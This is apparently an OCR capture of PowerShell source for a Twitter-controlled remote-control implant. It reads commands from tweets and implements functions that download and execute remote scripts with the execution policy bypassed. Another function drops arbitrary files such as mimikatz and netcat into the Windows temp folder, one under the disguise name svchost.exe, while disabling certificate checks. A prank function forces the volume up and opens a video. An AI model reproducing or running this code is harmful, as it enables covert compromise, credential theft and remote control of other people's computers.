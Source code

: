             #Twitter automatically shortens every URL so we need to get the actual URL
            $WebRequest = [System.Net.WebRequest]::create($downloadURL)
            $WebResponse = $WebRequest.GetResponse()
            $ActualdownloadURL = $WebResponse.ResponseUri.AbsoluteUri
            $WebResponse.Close()
            Write-Verbose "I am downloading from $ActualdownloadURL"
            
            $downloadedScript = $WebClientObject.downloadString($ActualdownloadURL)
            #Need to bypass potentially restrictive ExecutionPolicies
            $CmdString = 'PowerShell.exe -Exec Bypass -NoL -Com $downloadedScript'
            Write-Verbose "I am executing $CmdString"
            Invoke-Expression $CmdString
        }
                    
        #Implements the !download command which downloads a file to specified path and filename. Ex: !download|http://blahblah.com|c:\windows\temp\mimikatz.exe
        #Ex: !download|http://tools.hackarmoury.com/general_tools/nc/nc.exe|c:\windows\temp\svchost.exe
        Function downloadCommand {
            [string] $downloadURL = $LatestTweet.split('|')[1]
            [string] $FileOnDisk =  $LatestTweet.split('|')[2]

            if ($downloadURL.Substring(0,5) -ceq "https") {
                [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $True }
            }

            #Twitter automatically shortens every URL so we need to get the actual URL
            $WebRequest = [System.Net.Webrequest]::create($downloadURL)
            $WebResponse = $WebRequest.GetResponse()
            $ActualdownloadURL = $WebResponse.ResponseUri.AbsoluteUri
            $WebResponse.Close()
            Write-Verbose "I am downloading from $ActualdownloadURL"
            Write-Verbose "I am saving the file to $FileOnDisk"
            $downloadedScript = $WebClientObject.downloadFile($downloadURL,"$FileOnDisk")
        }
            
        #Implements the !rickroll command which opens IE to a youtube video defaults to rickroll if none supplied (feature request by Matt Graeber)
        #Ex: !rickroll|http://www.youtube.com/watch?v=dQw4w9WgXcQ
        Function RickrollCommand {
            [string] $VideoURL = $LatestTweet.split('|')[1]
            #Set the URL to youtube rickroll if URL wasn't supplied
            if ($VideoURL -eq $null) {
                [string] $VideoURL = "http://www.youtube.com/watch?v=dQw4w9WgXcQ"
            }
            
            #Raise the volume to make sure they hear us
            1..50 | Foreach {
                    $WscriptObject = New-Object -com wscript.shell
                    $WscriptObject.SendKeys([char]175)
                }
            
            [string] $CmdString = "$env:SystemDrive\PROGRA~1\INTERN~1\iexplore.exe $VideoURL"
            Write-Verbose "I am now opening IE to $VideoUrl"
            Invoke-Expression $CmdString
        }
                                      